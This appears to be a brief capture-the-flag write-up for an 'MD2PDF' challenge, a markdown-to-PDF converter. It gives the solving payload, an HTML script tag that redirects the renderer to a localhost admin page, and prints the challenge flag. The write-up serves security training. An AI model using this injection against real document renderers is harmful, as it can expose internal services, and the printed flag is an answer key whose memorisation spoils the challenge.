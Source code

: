 # MD2PDF

## Task 1

* Hello Hacker!

* TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.

* This easy-to-use utility converts markdown files to PDF and is totally secure! Right...?

> Note: Please allow 3-5 minutes for the VM to boot up fully before attempting the challenge.

---

```html

<script>
	window.location = "http://localhost:5000/admin"
</script>

```


---

* What is the flag?

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```